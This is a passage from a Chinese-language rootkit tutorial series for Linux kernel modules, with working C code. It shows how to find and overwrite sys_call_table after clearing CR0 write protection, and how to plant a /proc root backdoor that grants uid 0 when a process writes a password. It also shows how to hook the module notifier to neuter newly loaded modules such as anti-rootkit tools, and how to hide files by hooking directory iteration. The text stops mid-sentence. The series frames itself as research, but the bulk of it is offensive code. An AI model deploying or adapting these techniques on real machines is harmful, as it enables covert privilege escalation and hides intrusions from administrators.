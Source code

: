Linux Rootkit 研究
@@@@@@@@@@@@@@@@@@

Linux Rootkit 系列二：基于修改 `sys_call_table`_ 的系统调用挂钩
===============================================================

**最后修改时间** ：待记录。

rectigu@gmail.com, 二〇一六年五月。

**FreeBuf 链接** ： http://www.freebuf.com/sectool/105713.html 。

前言： `《Linux Rootkit 系列一： LKM 的基础编写及隐藏》`_
的作者似乎跑路了；留下的这个口锅，我试着背一下。
鉴于笔者知识能力上的不足，如有问题欢迎各位扔豆腐，不要砸砖头。

与第一篇文章作者所想象的不同，
本文不打算给大家介绍三种不同的系统调用挂钩技术，
相反，本文仅详细讲解最简单的系统调用挂钩方案，
并且基于这个方案实现最基本的文件监视工具。
这样，既可以让读者轻松上手进行实际应用，
又可以加深、巩固读者对 LKM_ 的理解，
同时还免去了一次学习多种挂钩方案的理论知识压力。

所以，本文力求以实验为核心，每一个步骤都可能有对应的实验代码。
代码仓库： https://github.com/NoviceLive/research-rootkit 。
代码在最新的 64 比特 Arch_ 与 Kali_ 上面测试正常。

测试建议： **不要在物理机测试！不要在物理机测试！
不要在物理机测试！**

如果读者使用 tmux_ 或者类似的工具，
则可以垂直分割你的终端窗口，
一个窗口开一个 ``sudo dmesg -C && dmesg -w`` ，用于查看日志；
另一个窗口用来做其他操作，比如构建、加载内核模块。
不用 tmux_ 也没关系，开两个终端，各占半个屏幕。


第一部分：基于修改 `sys_call_table`_ 的系统调用挂钩
---------------------------------------------------

在系统调用挂钩技术中，最简单、最流行的方案是修改
`sys_call_table`_ ，
成员类型为函数指针的一维数组。

.. code-block:: c

   asmlinkage const sys_call_ptr_t sys_call_table[__NR_syscall_max+1] = {
   	/*
   	 * Smells like a compiler bug -- it doesn't work
   	 * when the & below is removed.
   	 */
   	[0 ... __NR_syscall_max] = &sys_ni_syscall,
   #include <asm/syscalls_64.h>
   };

要修改它，首先得拿到它在内存里的位置。
然后，由于 `sys_call_table`_ 所在的内存是有写保护的，
所以我们需要先去掉写保护，再做修改。

1. 获得 `sys_call_table`_ 的内存地址
++++++++++++++++++++++++++++++++++++

在综合考量了几种可选的获取方案之后，
笔者决定采用从内核起始地址开始暴力搜索内存空间的方案。
（ **但是这种方案有可能被欺骗** 。）

其他可能的方案有，一，从 `/boot/System.map`_ 中读取，
感兴趣的读者可以查阅
`Hooking the Linux System Call Table`_ ，
这篇文章便是使用这种方案来获取 `sys_call_table`_ 的地址的。

二，从使用了 `sys_call_table`_
的某些未导出函数的机器码里面进行特征搜索，
感兴趣的读者可以查阅
`Kernel-Land Rootkits`_ ，
作者花了几张 slides
阐述了如何从导出的函数中获取使用了 `sys_call_table`_ 的未导出函数，
进而搜索那个未导出函数的机器码，
得到 `sys_call_table`_ 的地址；等等。

值得指出的是，
感兴趣的读者在测试这些本文未涉及的方案时，
如果遇到了疑惑或者困难，也可以与笔者联系、交流。

直接看代码。

.. code-block:: c

   unsigned long **
   get_sys_call_table(void)
   {
     unsigned long **entry = (unsigned long **)PAGE_OFFSET;

     for (;(unsigned long)entry < ULONG_MAX; entry += 1) {
       if (entry[__NR_close] == (unsigned long *)sys_close) {
           return entry;
         }
     }

     return NULL;
   }

`PAGE_OFFSET`_ 是内核内存空间的起始地址。
因为 `sys_close`_ 是导出函数
（需要指出的是， ``sys_open`` 、 ``sys_read`` 等并不是导出的），
我们可以直接得到他的地址；因为系统调用号
（也就是 `sys_call_table`_ 这个一维数组的索引）
在同一 ABI_ （x86 跟 x64 不是同一 ABI）上具有高度的后向兼容性，
更重要的是，我们可以直接使用这个索引（代码中的 ``__NR_close`` ）！

从内核内存的起始地址开始，
逐一尝试每一个指针大小的内存：把它当成是 `sys_call_table`_ 的地址，
用某个系统调用的编号（也就是索引）访问数组中的成员，
如果访问得到的值刚好是是这个系统调用号所对应的系统调用的地址，
那么我们就认为当前尝试的这块指针大小的内存就是我们要找的
`sys_call_table`_ 的地址。

.. image:: images/sys_call_table.png

2. 关闭写保护
+++++++++++++

写保护指的是写入只读内存时出错。
这个特性可以通过 CR0_ 寄存器控制：开启或者关闭，
只需要修改一个比特，也就是从 0 开始数的第 16 个比特。

看代码。我们可以使用 `read_cr0`_ / `write_cr0`_
来读取 / 写入 CR0_ 寄存器，
免去我们自己写内联汇编的麻烦。

函数原型。

.. code-block:: c

   static inline unsigned long read_cr0(void);

   static inline void write_cr0(unsigned long x);

关闭写保护的源代码：将 CR0_ 寄存器从 0 开始数的第 16 个比特置为 0。

.. code-block:: c

   void
   disable_write_protection(void)
   {
     unsigned long cr0 = read_cr0();
     clear_bit(16, &cr0);
     write_cr0(cr0);
   }

开启写保护的源代码：将 CR0_ 寄存器从 0 开始数的第 16 个比特置为 1。

.. code-block:: c

   void
   enable_write_protection(void)
   {
     unsigned long cr0 = read_cr0();
     set_bit(16, &cr0);
     write_cr0(cr0);
   }


在设置或者清除某个比特，我们使用了 `set_bit`_ 与 `clear_bit`_ 。
它们是 Linux 内核提供给内核模块使用的编程接口，简单易懂，
同时还免去了我们自己写那种很难读的位运算的痛苦。

函数原型。

.. code-block:: c

   static __always_inline void
   set_bit(long nr, volatile unsigned long *addr);

   static __always_inline void
   clear_bit(long nr, volatile unsigned long *addr);

.. image:: images/write_protection.png

3. 修改 `sys_call_table`_
+++++++++++++++++++++++++

一维数组赋值，当之无愧最简单的方案。
当然，我们需要先把真正的值保存好，以备后面之需。

.. code-block:: c

   disable_write_protection();
   real_open = (void *)sys_call_table[__NR_open];
   sys_call_table[__NR_open] = (unsigned long*)fake_open;
   real_unlink = (void *)sys_call_table[__NR_unlink];
   sys_call_table[__NR_unlink] = (unsigned long*)fake_unlink;
   real_unlinkat = (void *)sys_call_table[__NR_unlinkat];
   sys_call_table[__NR_unlinkat] = (unsigned long*)fake_unlinkat;
   enable_write_protection();

4. 恢复
+++++++

.. code-block:: c

   disable_write_protection();
   sys_call_table[__NR_open] = (unsigned long*)real_open;
   sys_call_table[__NR_unlink] = (unsigned long*)real_unlink;
   sys_call_table[__NR_unlinkat] = (unsigned long*)real_unlinkat;
   enable_write_protection();


第二部分：基于系统调用挂钩的初级文件监视
----------------------------------------

监视文件的创建与删除。
我们挂钩 `sys_open`_, `sys_unlink`_, `sys_unlinkat`_ 这三个函数，
并且在我们的钩子函数把操作到的文件名打印出来，
然后把控制交给真正的系统调用处理。

1. `sys_open`_ 的钩子函数： ``fake_open``
+++++++++++++++++++++++++++++++++++++++++

考虑到在系统运行时，对文件的读写操作从未中断，
这里只打印了进行创建操作的文件名，准确地说是，
`sys_open`_ 的 ``flags`` 中包含 `O_CREAT`_ 。

.. code-block:: c

   asmlinkage long
   fake_open(const char __user *filename, int flags, umode_t mode)
   {
     if ((flags & O_CREAT) && strcmp(filename, "/dev/null") != 0) {
       printk(KERN_ALERT "open: %s\n", filename);
     }

     return real_open(filename, flags, mode);
   }

注：这里的 `strcmp`_ 也是内核提供的。

2. `sys_unlink`_ 与 `sys_unlinkat`_ 的钩子函数： ``fake_unlink`` 与 ``fake_unlinkat``
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

简单处理，直接打印路径名。

.. code-block:: c

   asmlinkage long
   fake_unlink(const char __user *pathname)
   {
     printk(KERN_ALERT "unlink: %s\n", pathname);

     return real_unlink(pathname);
   }

   asmlinkage long
   fake_unlinkat(int dfd, const char __user * pathname, int flag)
   {
     printk(KERN_ALERT "unlinkat: %s\n", pathname);

     return real_unlinkat(dfd, pathname, flag);
   }

3. 测试我们的文件监视工具
+++++++++++++++++++++++++

初级的文件监视就到这了，以后我们在做进一步的改进与完善。

.. image:: images/fsmon.png


第三部分：参考资料与延伸阅读
----------------------------

1. 参考资料
+++++++++++

- `Linux Cross Reference`_
- `The Linux Kernel API`_
- `How the Linux kernel handles a system call`_
- CR0_

2. 延伸阅读
+++++++++++

- `Hooking the Linux System Call Table`_
- `Kernel-Land Rootkits`_


.. _《Linux Rootkit 系列一： LKM 的基础编写及隐藏》: http://www.freebuf.com/articles/system/54263.html

.. _Hooking the Linux System Call Table: https://tnichols.org/2015/10/19/Hooking-the-Linux-System-Call-Table/
.. _Kernel-Land Rootkits: http://www.kernelhacking.com/rodrigo/docs/StMichael/kernel-land-rootkits.pdf

.. _/boot/System.map: https://en.wikipedia.org/wiki/System.map
.. _LKM: https://en.wikipedia.org/wiki/Loadable_kernel_module
.. _ABI: https://en.wikipedia.org/wiki/Application_binary_interface
.. _CR0: https://en.wikipedia.org/wiki/Control_register#CR0

.. _The Linux Kernel API: https://www.kernel.org/doc/htmldocs/kernel-api/index.html
.. _set_bit: https://www.kernel.org/doc/htmldocs/kernel-api/API-set-bit.html
.. _clear_bit: https://www.kernel.org/doc/htmldocs/kernel-api/API-clear-bit.html
.. _strcmp: https://www.kernel.org/doc/htmldocs/kernel-api/API-strcmp.html

.. _Linux Cross Reference: http://lxr.free-electrons.com/
.. _read_cr0: http://lxr.free-electrons.com/ident?i=read_cr0
.. _write_cr0: http://lxr.free-electrons.com/ident?i=write_cr0
.. _sys_close: http://lxr.free-electrons.com/ident?i=sys_close
.. _sys_open: http://lxr.free-electrons.com/ident?i=sys_open
.. _sys_unlink: http://lxr.free-electrons.com/ident?i=sys_unlink
.. _sys_unlinkat: http://lxr.free-electrons.com/ident?i=sys_unlinkat
.. _sys_call_table: http://lxr.free-electrons.com/ident?i=sys_call_table
.. _PAGE_OFFSET: http://lxr.free-electrons.com/ident?i=PAGE_OFFSET
.. _O_CREAT: http://lxr.free-electrons.com/ident?i=O_CREAT

.. _Arch: https://www.archlinux.org/
.. _Kali: https://www.kali.org/

.. _How the Linux kernel handles a system call:  https://0xax.gitbooks.io/linux-insides/content/SysCall/syscall-2.html

.. _tmux: https://tmux.github.io/


Linux Rootkit 系列三：实例详解 Rootkit 必备的基本功能
=====================================================

**最后修改时间** ： **2016-07-20 CST** 。

rectigu@gmail.com, 二〇一六年六月。

**FreeBuf 链接** ： http://www.freebuf.com/articles/system/107829.html 。

前言
----

**鉴于笔者知识能力上的不足，如有疏忽，欢迎纠正。**

本文所需的完整代码位于笔者的代码仓库：
https://github.com/NoviceLive/research-rootkit。

测试建议： **不要在物理机测试！不要在物理机测试！
不要在物理机测试！**

概要
----

在 `上一篇文章`_ 中笔者详细地阐述了基于直接修改系统调用表
（即 ``sys_call_table`` / ``ia32_sys_call_table`` ）的挂钩，
文章强调以代码与动手实验为核心。

长话短说，本文也将以同样的理念带领读者一一缕清
Rootkit 必备的基本功能，
包括提供 root 后门，控制内核模块的加载，
**隐藏文件** （提示：这是文章的重点与核心内容），
隐藏进程，隐藏网络端口，隐藏内核模块等。

短话长说，本文不打算给大家介绍剩下的几种不同的系统调用挂钩技术：
比如说，修改 32 位系统调用（ 使用 ``int $0x80`` ）
进入内核需要使用的 `IDT`_
（ `Interrupt descriptor table`_ / 中断描述符表） 项，
修改 64 位系统调用（ 使用 ``syscall`` ）需要使用的 `MSR`_
（ `Model-specific register`_ / 模型特定寄存器，具体讲，
64 位系统调用派遣例程的地址位于 `MSR_LSTAR`_ ）；
又比如基于修改系统调用派遣例程
（对 64 位系统调用而言也就是 ``entry_SYSCALL_64`` ） 的钩法；
又或者，内联挂钩 / `Inline Hooking`_ 。

这些钩法我们以后再谈，现在，我们先专心把一种钩法玩出花样。
`上一篇文章`_ 讲的钩法，也就是函数指针的替换，并不局限于钩系统调用。
本文会将这种方法应用到其他的函数上。

.. _上一篇文章: http://www.freebuf.com/sectool/105713.html


第一部分：Rootkit 必备的基本功能
--------------------------------

**站稳，坐好。**

1. 提供 root 后门
+++++++++++++++++

这个特别好讲，笔者就拿提供 root 后门这个功能开刀了。

大家还记得前段时间 `全志`_ （ `AllWinner`_ ）
提供的 Linux 内核里面的 root 后门吧，
不了解的可以看一下 `FB`_ 之前的文章，
`外媒报道：中国知名ARM制造商全志科技在Linux中留下内核后门`_ 。

我们拿 `后门的那段源代码`_ 改改就好了。

具体说来，逻辑是这样子的，
我们的内核模块在 `/proc`_ 下面创建一个文件，
如果某一个进程向这个文件写入特定的内容
（读者可以把这个“特定的内容”理解成口令或者密码），
我们的内核模块就把这个进程的 uid_ 与 euid_ 等等全都设置成 0，
也就是 root 账号的。这样，这个进程就拥有了 root 权限。

不妨拿 `全志`_ root 后门这件事来举个例子，
在运行有后门的 Linux 内核的设备上，
进程只需要向 ``/proc/sunxi_debug/sunxi_debug`` 写入 ``rootmydevice``
就可以获得 root 权限。

另外，我们的内核模块创建的那个文件显然是要隐藏掉的。
考虑到现在还没讲文件隐藏（本文后面会谈文件隐藏），所以
这一小节的实验并不包括将创建出来的文件隐藏掉。

下面我们看看怎样在内核模块里创建 `/proc`_ 下面的文件。

`全志`_ root 后门代码里用到的 ``create_proc_entry``
是一个过时了的 API_ ，而且在新内核里面它已经被去掉了。
考虑到笔者暂时还不考虑兼容老的内核，
所以我们直接用新的 API_ ， ``proc_create`` 与 ``proc_remove`` ，
分别用于创建与删除一个 `/proc`_ 下面的项目。

函数原型如下。

.. code-block:: c

   # include <linux/proc_fs.h>

   static inline struct proc_dir_entry *
   proc_create(const char *name, umode_t mode, struct proc_dir_entry *parent, const struct file_operations *proc_fops);

   void
   proc_remove(struct proc_dir_entry *entry);

``proc_create`` 参数的含义依次为，文件名字，文件访问模式，
父目录，文件操作函数结构体。
我们重点关心第四个参数： ``struct file_operations``
里面是一些函数指针，即对文件的各种操作的处理函数，
比如，读（ ``read`` ）、写（ ``write`` ）。
该结构体的定义位于 ``linux/fs.h`` ，后面讲文件隐藏的时候还会遇到它。

创建与删除一个 `/proc`_ 文件的代码示例如下。

.. code-block:: c

   struct proc_dir_entry *entry;

   entry = proc_create(NAME, S_IRUGO | S_IWUGO, NULL, &proc_fops);

   proc_remove(entry);


实现我们的需求只需要提供一个写操作（ ``write`` ）
的处理函数就可以了，如下所示。

.. code-block:: c

   ssize_t
   write_handler(struct file * filp, const char __user *buff,
                 size_t count, loff_t *offp);

   struct file_operations proc_fops = {
       .write = write_handler
   };

   ssize_t
   write_handler(struct file * filp, const char __user *buff,
                 size_t count, loff_t *offp)
   {
       char *kbuff;
       struct cred* cred;

       // 分配内存。
       kbuff = kmalloc(count, GFP_KERNEL);
       if (!kbuff) {
           return -ENOMEM;
       }

       // 复制到内核缓冲区。
       if (copy_from_user(kbuff, buff, count)) {
           kfree(kbuff);
           return -EFAULT;
       }
       kbuff[count] = (char)0;

       if (strlen(kbuff) == strlen(AUTH) &&
           strncmp(AUTH, kbuff, count) == 0) {

           // 用户进程写入的内容是我们的口令或者密码，
           // 把进程的 ``uid`` 与 ``gid`` 等等
           // 都设置成 ``root`` 账号的，将其提权到 ``root``。
           fm_alert("%s\n", "Comrade, I will help you.");
           cred = (struct cred *)__task_cred(current);
           cred->uid = cred->euid = cred->fsuid = GLOBAL_ROOT_UID;
           cred->gid = cred->egid = cred->fsgid = GLOBAL_ROOT_GID;
           fm_alert("%s\n", "See you!");
       } else {
           // 密码错误，拒绝提权。
           fm_alert("Alien, get out of here: %s.\n", kbuff);
       }

       kfree(buff);
       return count;
   }

实验
****

编译并加载我们的内核模块，以 Kali_ 为例：
Kali_ 默认只有 root 账号，
我们可以用 ``useradd <username>``
添加一个临时的非 root 账号来运行提权脚本（ ``r00tme.sh`` ）做演示。
效果参见下图，
可以看到在提权之前用户的 uid_ 是 1000，
也就是普通用户，不能读取 ``/proc/kcore`` ；
提权之后， uid_ 变成了 0，也就是超级用户，可以读取 ``/proc/kcore`` 。

.. image:: images/root-backdoor.png



.. _后门的那段源代码: https://github.com/allwinner-zh/linux-3.4-sunxi/blob/bd5637f7297c6abf78f93b31fc1dd33f2c1a9f76/arch/arm/mach-sunxi/sunxi-debug.c#L41

2. 控制内核模块的加载
+++++++++++++++++++++

想象一下，在一个月黑风高的夜晚，邪恶的读者（误：善良的读者）
通过某种手段（可能的经典顺序是 RCE_ + LPE_ ，
Remote Code Execution / 远程代码执行
+ Local Privilege Escalation / 本地特权提升）
得到了某台机器的 root 命令执行；
进而执行 Rootkit 的 Dropper 程序释放并配置好 Rootkit，
让其进入工作状态。

这时候，Rootkit 首先应该做的并不是提供 root 后门；
而是，一方面，我们应该尝试把我们进来的门（漏洞）堵上，
避免 **其他** 不良群众乱入，另一方面，我们希望能控制好其他程序
（这个其他程序主要是指反 Rootkit 程序与 **其他** 不良 Rootkit），
使其不加载 **其他** 不良内核模块与我们在内核态血拼。

理想状态下，我们的 Rootkit 独自霸占内核态，
阻止所有不必要的代码
（尤其是反 Rootkit 程序与 **其他** 不良 Rootkit）在内核态执行。
当然，理想是艰巨的，所以我们先做点容易的，控制内核模块的加载。

**2016-07-20 CST 更新** ： **独自霸占内核态的理想错误的，
Rootkit 强调的是后门（隐蔽）属性，不是霸道（嚣张）** 。

控制内核模块的加载，我们可以从通知链机制下手。
通知链的详细工作机制读者可以查看参考资料；
简单来讲，当某个子系统或者模块发生某个事件时，
该子系统主动遍历某个链表，
而这个链表中记录着其他子系统或者模块注册的事件处理函数，
通过传递恰当的参数调用这个处理函数达到事件通知的目的。

具体来说，我们注册一个模块通知处理函数，
在模块完成加载之后、开始初始化之前，
即模块状态为 ``MODULE_STATE_COMING`` ，
将其初始函数掉包成一个什么也不做的函数。
这样一来，模块不能完成初始化，也就相当于残废了。

笔者决定多读读代码，少讲理论，
所以我们先简要分析一下内核模块的加载过程。
相关代码位于内核源码树的 ``kernel/module.c`` 。
我们从 ``init_module`` 开始看。

.. code-block:: c

   SYSCALL_DEFINE3(init_module, void __user *, umod,
            unsigned long, len, const char __user *, uargs)
   {
        int err;
        struct load_info info = { };

        // 检查当前设置是否允许加载内核模块。
        err = may_init_module();

        if (err)
            return err;

        pr_debug("init_module: umod=%p, len=%lu, uargs=%p\n",
               umod, len, uargs);

        // 复制模块到内核。
        err = copy_module_from_user(umod, len, &info);
        if (err)
            return err;

        // 交给 ``load_module`` 进一步处理。
        return load_module(&info, uargs, 0);
   }

模块加载的主要工作都是 ``load_module`` 完成的，这个函数比较长，
这里只贴我们关心的一小段。

.. code-block:: c

   static int load_module(struct load_info *info, const char __user *uargs,
               int flags)
   {
        // 这儿省略若干代码。

        /* Finally it's fully formed, ready to start executing. */
        // 模块已经完成加载，可以开始执行了（但是还没有执行）。
        err = complete_formation(mod, info);
        if (err)
            goto ddebug_cleanup;

        // 我们注册的通知处理函数会在 ``prepare_coming_module`` 的
        // 时候被调用，完成偷天换日。在下面我们还会分析一下这个函数。
        err = prepare_coming_module(mod);
        if (err)
            goto bug_cleanup;

        // 这儿省略若干代码。

        // 在 ``do_init_module`` 里面，模块的初始函数会被执行。
        // 然而在这个时候，我们早就把他的初始化函数掉包了（/偷笑）。
        return do_init_module(mod);

        // 这儿省略若干代码：错误时释放资源等。
   }

.. code-block:: c

   static int prepare_coming_module(struct module *mod)
   {
        int err;

        ftrace_module_enable(mod);
        err = klp_module_coming(mod);
        if (err)
            return err;

        // 就是这儿！调用通知链中的通知处理函数。
        // ``MODULE_STATE_COMING`` 会原封不动地传递给我们的处理函数，
        // 我们的处理函数只需处理这个通知。
        blocking_notifier_call_chain(&module_notify_list,
                         MODULE_STATE_COMING, mod);
        return 0;
   }

说的具体点，
我们注册的通知链处理函数是在 ``notifier_call_chain``
函数里被调用的，调用层次为： ``blocking_notifier_call_chain`` ->
``__blocking_notifier_call_chain`` -> ``notifier_call_chain`` 。
有疑惑的读者可以细致地看看这部分代码，
位于内核源码树的 ``kernel/notifier.c`` 。

代码分析告一段落，接下来我们看看如何注册模块通知处理函数。
用于描述通知处理函数的结构体是 ``struct notifier_block`` ，
定义如下 。

.. code-block:: c

   typedef  int (*notifier_fn_t)(struct notifier_block *nb,
                unsigned long action, void *data);

   struct notifier_block {
        notifier_fn_t notifier_call;
        struct notifier_block __rcu *next;
        int priority;
   };

注册或者注销模块通知处理函数可以使用 ``register_module_notifier``
或者 ``unregister_module_notifier`` ，函数原型如下。

.. code-block:: c

   int
   register_module_notifier(struct notifier_block *nb);

   int
   unregister_module_notifier(struct notifier_block *nb);

编写一个通知处理函数，然后填充 ``struct notifier_block`` 结构体，
最后使用 ``register_module_notifier`` 注册就可以了。代码片段如下。

.. code-block:: c

   int
   module_notifier(struct notifier_block *nb,
                   unsigned long action, void *data);

   struct notifier_block nb = {
       .notifier_call = module_notifier,
       .priority = INT_MAX
   };

上面的代码是声明处理函数并填充所需结构体；
下面是处理函数具体实现。

.. code-block:: c

   int
   fake_init(void);
   void
   fake_exit(void);


   int
   module_notifier(struct notifier_block *nb,
                   unsigned long action, void *data)
   {
       struct module *module;
       unsigned long flags;
       // 定义锁。
       DEFINE_SPINLOCK(module_notifier_spinlock);

       module = data;
       fm_alert("Processing the module: %s\n", module->name);

       //保存中断状态加锁。
       spin_lock_irqsave(&module_notifier_spinlock, flags);
       switch (module->state) {
       case MODULE_STATE_COMING:
           fm_alert("Replacing init and exit functions: %s.\n",
                    module->name);
           // 偷天换日：篡改模块的初始函数与退出函数。
           module->init = fake_init;
           module->exit = fake_exit;
           break;
       default:
           break;
       }

       // 恢复中断状态解锁。
       spin_unlock_irqrestore(&module_notifier_spinlock, flags);

       return NOTIFY_DONE;
   }


   int
   fake_init(void)
   {
       fm_alert("%s\n", "Fake init.");

       return 0;
   }


   void
   fake_exit(void)
   {
       fm_alert("%s\n", "Fake exit.");

       return;
   }

实验
****

测试时我们还需要构建另外一个简单的模块（ ``test`` ）来测试，
从下图可以看到在加载用于控制模块加载的内核模块（ ``komonko`` ）
之前， ``test`` 的初始函数与退出函数都正常的执行了；
在加载 ``komonko`` 之后， 无论是加载 ``test`` 还是卸载 ``test`` ，
它的初始函数与退出函数都没有执行，
执行的是我们掉包后的初始函数与退出函数。

.. image:: images/komon.png

3. 隐藏文件
+++++++++++

说好的重点内容文件隐藏来了。
不过说到文件隐藏，我们不妨先看看文件遍历的实现，
也就是系统调用 ``getdents`` / ``getdents64`` ，
简略地浏览它在内核态服务函数（sys_getdents）的源码
（位于 ``fs/readdir.c`` ），我们可以看到如下调用层次，
``sys_getdents`` -> ``iterate_dir``
-> ``struct file_operations`` 里的 ``iterate``
-> 这儿省略若干层次
-> ``struct dir_context`` 里的 ``actor`` ，也就是 ``filldir`` 。

``filldir`` 负责把一项记录（比如说目录下的一个文件或者一个子目录）
填到返回的缓冲区里。如果我们钩掉 ``filldir`` ，
并在我们的钩子函数里对某些特定的记录予以直接丢弃，
不填到缓冲区里，上层函数与应用程序就收不到那个记录，
也就不知道那个文件或者文件夹的存在了，也就实现了文件隐藏。

具体说来，我们的隐藏逻辑如下：
篡改根目录（也就是“/”）的 ``iterate`` 为我们的假 ``iterate`` ，
在假函数里把 ``struct dir_context`` 里的 ``actor`` 替换成我们的
假 ``filldir`` ，假 ``filldir`` 会把需要隐藏的文件过滤掉。

下面是假 ``iterate`` 与 假 ``filldir`` 的实现。

.. code-block:: c

   int
   fake_iterate(struct file *filp, struct dir_context *ctx)
   {
       // 备份真的 ``filldir``，以备后面之需。
       real_filldir = ctx->actor;

       // 把 ``struct dir_context`` 里的 ``actor``，
       // 也就是真的 ``filldir``
       // 替换成我们的假 ``filldir``
       *(filldir_t *)&ctx->actor = fake_filldir;

       return real_iterate(filp, ctx);
   }


   int
   fake_filldir(struct dir_context *ctx, const char *name, int namlen,
                loff_t offset, u64 ino, unsigned d_type)
   {
       if (strncmp(name, SECRET_FILE, strlen(SECRET_FILE)) == 0) {
           // 如果是需要隐藏的文件，直接返回，不填到缓冲区里。
           fm_alert("Hiding: %s", name);
           return 0;
       }

       /* pr_cont("%s ", name); */

       // 如果不是需要隐藏的文件，
       // 交给的真的 ``filldir`` 把这个记录填到缓冲区里。
       return real_filldir(ctx, name, namlen, offset, ino, d_type);
   }


钩某个目录的 ``struct file_operations`` 里的函数，
笔者写了一个通用的宏。

.. code-block:: c

   # define set_f_op(op, path, new, old)                       \
       do {                                                    \
           struct file *filp;                                  \
           struct file_operations *f_op;                       \
                                                               \
           fm_alert("Opening the path: %s.\n", path);          \
           filp = filp_open(path, O_RDONLY, 0);                \
           if (IS_ERR(filp)) {                                 \
               fm_alert("Failed to open %s with error %ld.\n", \
                        path, PTR_ERR(filp));                  \
               old = NULL;                                     \
           } else {                                            \
               fm_alert("Succeeded in opening: %s\n", path);   \
               f_op = (struct file_operations *)filp->f_op;    \
               old = f_op->op;                                 \
                                                               \
               fm_alert("Changing iterate from %p to %p.\n",   \
                        old, new);                             \
               disable_write_protection();                     \
               f_op->op = new;                                 \
               enable_write_protection();                      \
           }                                                   \
       } while(0)


实验
****

实验时，笔者随（gu）手（yi）用来隐藏的文件名： ``032416_525.mp4`` 。
从下图我们可以看到，在加载我们的内核模块（ ``fshidko`` ）之前，
``test`` 目录下的 ``032416_525.mp4`` 是可以列举出来的；
但是加载 ``fshidko`` 之后就看不到了，并且在 ``dmesg`` 的日志里，
我们可以看到 ``fshidko`` 打印的隐藏了这个文件的信息。

.. image:: images/fshid.png

选读内容：相关内核源码的简略分析
********************************

.. code-block:: c

   SYSCALL_DEFINE3(getdents, unsigned int, fd,
            struct linux_dirent __user *, dirent, unsigned int, count)
   {
        // 这儿省略若干代码。

        struct getdents_callback buf = {
            .ctx.actor = filldir, // 最后的接锅英雄。
            .count = count,
            .current_dir = dirent
        };

        // 这儿省略若干代码。

        // 跟进 ``iterate_dir``，
        // 可以看到它是通过 ``struct file_operations`` 里
        // ``iterate`` 完成任务的。
        error = iterate_dir(f.file, &buf.ctx);

        // 这儿省略若干代码。

        return error;
   }

   int iterate_dir(struct file *file, struct dir_context *ctx)
   {
        struct inode *inode = file_inode(file);
        int res = -ENOTDIR;

        // 如果 ``struct file_operations`` 里的 ``iterate``
        // 为 ``NULL``，返回 ``-ENOTDIR`` 。
        if (!file->f_op->iterate)
            goto out;

        // 这儿省略若干代码。

        res = -ENOENT;
        if (!IS_DEADDIR(inode)) {
            ctx->pos = file->f_pos;
            // ``iterate_dir`` 把锅甩给了
            // ``struct file_operations`` 里的 ``iterate``，
            // 对这个 ``iterate`` 的分析请看下面。
            res = file->f_op->iterate(file, ctx);
            file->f_pos = ctx->pos;
            // 这儿省略若干代码。
        }
        // 这儿省略若干代码。
   out:
        return res;
   }

这一层一层的剥开，
